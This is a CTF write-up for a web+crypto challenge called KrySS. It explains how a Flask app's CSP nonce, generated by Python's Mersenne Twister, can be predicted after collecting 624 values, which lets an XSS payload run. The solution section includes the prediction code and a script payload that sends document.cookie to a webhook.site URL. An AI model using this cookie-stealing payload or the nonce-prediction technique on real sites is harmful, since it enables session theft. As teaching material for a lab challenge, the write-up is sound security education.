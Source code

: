 
so this was my contribution to the DEFENSYS 2024 CTF, and i created a web+crypto chall named KrySS and its an XSS chall but with an insecure CSP rule

### description:
	they told me XSS is very dangerous so i made a very secure website that will make XSS useless

## what you will learn:

* the nonce csp rule
* the Mersenne Twister PRNG algorithm 


## the solution
![Alt text](image1.png "Title")

in the / route we got this page and a button that should give us a cookie, and when click on it we got the following :
![Alt text](image2.png?raw=true "Title")

and its a unique userId (we will see later what this is used for)

![Alt text](image3.png?raw=true "Title")

and by looking at the cookies in devtools we see that we successfully got one, but what can we do with it, lets read the code and see

## Code analysis

#### The `/getcookie` route:
```python
Users = {}

@app.route('/getcookie', methods=['POST', 'GET'])
def setcookie():
	# this is just to generate a random userId
	user = str(uuid.uuid4())
	session["userId"] = user
	R = random.Random()
	Users[user] = R
	resp = make_response(f"your cookie has been set use it now to continue the challenge and your unique id is : {user}")
	return resp
```
in this endpoint we generate a unique userId and a `Random` object from the `Random` class in `random` module then map that `userId` with the `Random` object in the `Users` dictionary and we return the uniqe `userId` in response

### The `/hello` route
```python
@app.route("/hello")
def hello_world():
	try:
		user = session["userId"]
	except:
		user = request.args.get("userId", '')
	msg = request.args.get('msg', '')
	if user is None:
		return "You did not set any cookie go back to main page and set one"
	elif user not in Users:
		return "the userId you entered is no set go to /getcookie to take your cookie and set a new userId"
	else:
		R = Users[user]
	nonce = hex(R.getrandbits(32))[2:]
	resp = make_response(f"<p>Hello, {msg}</p>")
	resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
	return resp
```
at the beginning of this function we grab the userId either from cookies in the session object (the cookie we got in the `/getcookie` route)  or just enter it in the requests arguments.
but that `userId` should be already initialized (wich means it should be already in the Users dict) so a valid `userId` should be the one returned from `/getcookie`

and here comes the most important part of the chall:
```python
nonce = hex(R.getrandbits(32))[2:]
resp = make_response(f"<p>Hello, {msg}</p>")
resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
```
the server generate a random 32 bits number and convert it to hex in the nonce variable, also see that the `R` variable is the object we got from the `Users`  dict with the `userId` as key
we see and obvious XSS vulnerability
BUUUT we have a problem here we cant just have XSS because we have the `'Content-Security-Policy'` header wich will set some rules that will stop us from having an easy XSS

## Escape the Matrix, i mean the CSP 😅
### but what is CSP ?
csp (Content security policy) is a security mechanism that protect against XSS by putting some rules that will strict the uses of javascript  
```
Content Security Policy: is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.
```
this is the definition in : https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

and here is a good resource to better understand this concept: https://portswigger.net/web-security/cross-site-scripting/content-security-policy

### The `script-src 'nonce-{nonce}';` rule

what this rule does is that it tells the browser to only execute `<script>` tags that have the  `nonce`  attribute in it equal to the one generated by the server 
* Example:
if `nonce = afe4a1b2`
then the csp rule will be : `script-src 'nonce-afe4a1b2';` and the browser will only execute script tags that have `nonce` attribute equal to `afe4a1b2`:
```html
<script nonce="afe4a1b2">alert()</script>
```
so the goal of the challenge is to predict the next nonce random value

### Predicting the nonce

the way how the nonce is generated is by mapping each user to a `Random` object so each user will have a unique random sequence but can we predict each users sequence, if the `Random` use a predictable PRNG we can predict the n-th `nonce` by getting all n-1 `nonce`s, and fortunately the `Random` object uses a predictable PRNG which is : `Mersenne Twister`

resource if you wanna understand the Mersenne Twister PRNG deeper: 
* https://cryptopals.com/sets/3/challenges/23
* https://cryptopals.com/sets/3/challenges/22

but we can use a tool for that:
* https://github.com/tna0y/Python-random-module-cracker: and it requires 624 random value to predict the next one so we will have to collect 624 `nonce`

### Where is the flag ?
by looking at the bot.py source code of the bot admin we will notice that this is a headless chrome browser that will visit a url, and it puts the flag in cookies but those cookies will be accessible only when using the challenges domain

## Final solution

* create a webhook that we will use to leak us the flag : using this site https://webhook.site/, copy the url of the webhook
* create a user and take its userID:
	```python
	r = S.get(url+"/getcookie")
	userid = r.text.strip()[-36:]
	```
* take all the 624 nonce by requesting the `/hello` endpoint that will return the nonces in header, and predict the 625-th nonce using randcrack
```python
	rc = RandCrack()
	for _ in range(624):
		r = S.get(url+"/hello?msg=a")
		csp_header = r.headers["Content-Security-Policy"]
		print(csp_header)
		rc.submit(int(csp_header[18:-2], 16))
	nonce = hex(rc.predict_getrandbits(32))[2:]
	print(f"predicted value is : {nonce}")
```
* use the nonce we predicted in the `nonce` attribute of the `<script>` tag to execute javascript, and make a fetch (or XHR ) request to our webhook  to leak the flag (that will be in the bot's cookies)

```html
<script nonce="XXXXXX">fetch("https://webhook.site/zzzz...yyyy/flag?flag="+document.cookie,{{"mode":"no-cors"}})</script>
```
url encode this XSS payload using any online urlencoder then put it in the `msg` parameter and put the userId that we got in the `userId`  parameter (this step is so important)
* final payload should look something like this: `http://127.0.0.1:8080/report?msg=%3Cscript%20nonce%3D%22XXXXXX%22%3Efetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fzzzz%2E%2E%2Eyyyy%2Fflag%3Fflag%3D%22%2Bdocument%2Ecookie%2C%7B%7B%22mode%22%3A%22no%2Dcors%22%7D%7D%29%3C%2Fscript%3E&userId=52b73ef5%2D7f86%2D4892%2Dbd39%2D120ed0269c51`
* full payload generator will be in the [exploit.py](exploit.py)
* submit that url to the admin bot
* and then get the flag from the webhook

![Alt text](image4.png?raw=true "Title")

